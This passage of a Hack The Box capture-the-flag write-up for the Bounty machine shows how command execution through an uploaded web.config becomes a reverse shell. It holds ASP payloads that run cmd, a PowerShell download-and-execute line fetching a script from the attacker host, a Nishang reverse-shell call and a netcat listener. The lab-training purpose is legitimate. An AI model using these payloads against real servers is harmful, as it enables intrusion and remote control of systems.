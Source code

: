 ![web_3](GitHubv2/HackTheBox/EASY/Bounty/screenshots/web_3.png)

### 3.3 Remote Command Execution

We replace payload to confirm execution with ping:

```asp
<%
Set co = CreateObject("WScript.SHell")
Set cte = co.Exec("cmd /c ping 10.10.14.7")
output = cte.StdOut.Readall()
Response.write(output)
%>
```

![webconfig_ping](GitHubv2/HackTheBox/EASY/Bounty/screenshots/webconfig_ping.png)

Listening with tcpdump:

```bash
tcpdump -i tun0 icmp -n
```

![webconfig_ping_received](GitHubv2/HackTheBox/EASY/Bounty/screenshots/webconfig_ping_received.png)

✅ Confirmed RCE.

### 3.4 Reverse Shell

We use **Nishang Invoke-PowerShellTcp.ps1** payload:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443
```

Modify `web.config` to fetch and execute it:

```asp
<%
Set co = CreateObject("WScript.SHell")
Set cte = co.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')")
output = cte.StdOut.Readall()
Response.write(output)
%>
```

![webconfig_shell](GitHubv2/HackTheBox/EASY/Bounty/screenshots/webconfig_shell.png)

Start listener:

```bash
nc -nlvp 443
```

Upload and trigger the payload:
